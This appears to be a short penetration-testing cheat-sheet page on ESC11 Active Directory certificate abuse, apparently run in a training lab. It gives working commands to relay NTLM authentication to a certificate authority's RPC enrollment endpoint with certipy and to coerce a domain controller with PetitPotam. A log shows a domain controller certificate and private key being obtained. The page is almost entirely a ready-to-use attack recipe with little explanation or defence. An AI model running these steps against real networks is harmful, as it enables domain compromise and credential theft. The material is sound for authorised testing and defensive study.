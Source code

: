 # ESC11

`ESC11` domain escalation is similar to `ESC8`; instead of requesting certificates via the `HTTP` web enrollment endpoints, `RPC`/`ICRP` enrollment endpoints are utilized.

### <mark style="color:yellow;">ESC11 Abuse</mark>

Start listening

```sh
sudo certipy relay -target "rpc://172.16.19.5" -ca "lab-WS01-CA" -template DomainController
```

Coerce with PetitPotam

```sh
python3 PetitPotam.py -u BlWasp -p 'Password123!' -d 'lab.local' 172.16.19.19 172.16.19.3
```

```sh
htb-student@ubuntu:~$ sudo certipy relay -target "rpc://172.16.19.5" -ca "lab-WS01-CA" -template DomainController
[sudo] password for htb-student: 
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Targeting rpc://172.16.19.5 (ESC11)
[*] Listening on 0.0.0.0:445
[*] Connecting to ncacn_ip_tcp:172.16.19.5[135] to determine ICPR stringbinding
[*] Attacking user 'LAB-DC$@DC'
[*] Requesting certificate for user 'LAB-DC$' with template 'DomainController'
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 15
[*] Got certificate with DNS Host Name 'lab-dc.lab.local'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'lab-dc.pfx'
[*] Exiting...

```
